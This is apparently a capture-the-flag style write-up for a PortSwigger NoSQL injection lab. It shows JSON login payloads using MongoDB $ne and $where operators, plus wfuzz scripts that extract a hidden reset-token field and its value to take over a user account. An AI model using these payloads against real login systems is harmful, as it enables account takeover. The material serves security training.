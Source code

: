 # Exploiting NoSQL operator injection to extract unknown fields

**Lab Url**: [https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields)

![Lab Description](img/lab-description.png)

## Analysis

As usual, the initial step is to understand how the vulnerable application works and gather information about the target system. The application has a My Account page that redirects to log in if a user is not logged in. It also has a forgot password page.

The login page sends the username and password in JSON format to the application server. Notice that appending the apostrophe at the last of the username value does not generate a different response.

```json
{"username":"carlos'","password": "password"}
```

However, if we put Mongodb operator like `$where` or `$ne` we can observe that the application generates subtly different responses.

Like, the below payload returns an `Invalid username or password` in response:

```json
{"username":"carlos","password":"password"}
```

While this payload returns `Account locked: please reset your password` in response:

```json
{"username":"carlos","password":{"$ne": ""}}
```

![Lab Description](img/ne-operator.png)

Now, let's see if the javascript expression is being evaluated, we have to put the javascript expression inside the `$where` clause to have any effect.

```json
{"username":"carlos","password":{"$ne": ""}, "$where":"1"}
```

![Lab Description](img/where-1-operator.png)

```json
{"username":"carlos","password":{"$ne": ""}, "$where":"0"}
```

![Lab Description](img/where-0-operator.png)

The first payload returned `Account locked: please reset your password` while the second one returned `Invalid username or password`. This indicates that javascript expression inside `$where` clause is being evaluated.

**Now, let's try to extract unkown field names:**

We know that the first field in MongoDB is usually called `_id`. Let's check that.

```json
{"username":"carlos","password":{ "$ne": "" }, "$where": "Object.keys(this)[0] == '_id'"}
```

![Lab Description](img/valid-first-field.png)

Hmm, the application returned `Account locked: please reset your password` as we were expecting.

There is another way to do this for extracting unknown fields. Using the below payload we can match the character one at a time to extract an unknown field.

```json
{"username":"carlos","password":{ "$ne": "" }, "$where": "Object.keys(this)[0].match(/^[_id]/g)"}
```

## Extracting field name

We already know that the first field is _id. Use the below script incrementally to determine the fifth unkown field

```bash
echo {0..9} {a..z} {A..Z} | tr ' ' '\n' > chars.txt
```

```bash
#!/bin/bash

wfuzz -X POST \
    -u "https://YOUR-LAB-ID.web-security-academy.net/login" \
    -b "session=SESSION-KEY" \
    -H "Content-Type: application/json" \
    -w chars.txt \
    -d '{"username":"carlos","password":{ "$ne": "" }, "$where": "Object.keys(this)[4].match(/^FUZZ/g)"}' \
    --hs 'Invalid username or password'
```

## Unknown Field Verification

Now that we know the unknown field name let's verify it. The login page contained a `/forgot-password` link click on that to view the response.

Request an invalid field in the URL: `/forgot-password?foo=invalid`. Notice that the response is identical to the original response.

Now request your exfiltrated name of the password reset token field in the URL: `/forgot-password?YOURTOKENNAME=invalid`. Notice that you receive an Invalid token error message. This confirms that you have the correct token name and endpoint.

## Finding value of unknown field

```bash
#!/bin/bash

wfuzz -X POST \
    -u "https://YOUR-LAB-ID.web-security-academy.net/login" \
    -b "session=YOUR-SESSION-KEY" \
    -H "Content-Type: application/json" \
    -w chars.txt \
    -d '{"username":"carlos","password":{ "$ne": "" }, "$where": "this.YOUR-TOKEN-NAME.match(/^FUZZ/g)"}' \
    --hs 'Invalid username or password'
```

After finding the value of the `reset token`, submit the value of the password reset token in the URL of the `/forgot-password` request: GET `/forgot-password?YOURTOKENNAME=TOKENVALUE` and change the password of user carlos, and login in as `carlos` to solve the lab.

![Lab Solved](img/lab-solved.png)
